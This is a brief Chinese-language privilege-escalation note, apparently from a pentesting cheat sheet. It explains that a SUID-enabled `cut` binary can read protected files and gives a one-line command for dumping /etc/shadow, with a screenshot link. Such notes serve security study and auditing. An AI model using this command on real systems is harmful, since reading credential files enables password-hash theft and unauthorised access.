 # cut

`cut` 若具有 `s` 权限，可以被用来读取一些高权限文件的内容，例如`/etc/shadow`

使用如下命令读取`/etc/shadow` 的内容：

```
./cut -d "" -f1 /etc/shadow
```

![](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/cut-1.png)
